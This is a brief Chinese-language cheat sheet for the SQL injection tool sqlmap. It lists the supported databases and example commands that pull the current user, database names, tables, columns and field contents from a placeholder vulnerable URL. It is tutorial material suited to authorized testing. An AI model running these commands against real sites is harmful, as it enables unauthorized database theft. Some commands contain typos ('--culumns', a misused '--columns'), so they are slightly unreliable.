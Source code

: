 # sqlmap

## SQLMAP 简介

> ，一个自动化的SQL注入工具，主要功能是扫描、发现并利用给定URL的SQL注入漏洞，目前支持的数据库有：
- MySQL
- Oracle
- PostgreSQL
- Microsoft SQL Server
- Microsoft Access
- IBM DB2
- SQLite
- Firebird
- Sybase
- SAP MaxDB

## SQLMAP 常用命令

```bash
sqlmap.py -u "http://xxx.com/news?id=1" --current-user
# 获取当前用户名称
sqlmap.py -u "http://xxx.com/news?id=1" --current-db
# 获取当前数据库名称
sqlmap.py -u "http://xxx.com/news?id=1" --tables -D "db_name"
# 列表名
sqlmap.py -u "http://xxx.com/news?id=1" --culumns -T "tablename" -D "db_name"
# 列字段
sqlmap.py -u "http://xxx.com/news?id=1" --columns -C "column_name" -T "tablename" -D "db_name"
# 获取字段内容
```

参数说明:

- `-u` URL
- `--current-user` 当前用户名称
- `--tables` 列出表
- `--dbs` 列出数据库
- `-T [table_name] --columns` 查询指定表名的列
- `-T [table_name] -C [column_name]` 查询指定字段名